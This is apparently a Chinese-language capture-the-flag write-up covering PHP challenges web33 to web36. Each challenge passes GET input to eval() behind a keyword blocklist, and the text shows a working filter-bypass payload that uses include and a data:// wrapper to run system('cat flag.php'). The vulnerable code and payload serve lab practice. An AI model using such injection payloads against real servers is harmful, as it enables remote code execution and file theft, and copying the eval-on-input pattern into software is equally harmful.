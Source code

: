 ```php
}
```

这题好像和上一题一样？
但是尝试稍微改一下payload，既然可以利用文件包含漏洞
![Pasted image 20240912144540.png](/img/user/picture/Pasted%20image%2020240912144540.png)

```
?c=include%0a$_GET[1]?>&1=data://text/plain,<?php system("cat flag.php");?>
```
ctrl+u查看源代码：
![Pasted image 20240912144626.png](/img/user/picture/Pasted%20image%2020240912144626.png)
# web34

```php
<?php  
   
error_reporting(0);  
if(isset($_GET['c'])){    $c = $_GET['c'];  
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c)){  
        eval($c);  
    }  
      
}else{    highlight_file(__FILE__);  
}
```

上一题payload可解


# web35

```php
<?php  
 
  
error_reporting(0);  
if(isset($_GET['c'])){    $c = $_GET['c'];  
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=/i", $c)){  
        eval($c);  
    }  
      
}else{    highlight_file(__FILE__);  
}
```


上一题payload可解


# web36
```php
<?php  
  

  
error_reporting(0);  
if(isset($_GET['c'])){    $c = $_GET['c'];  
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c)){  
        eval($c);  
    }  
      
```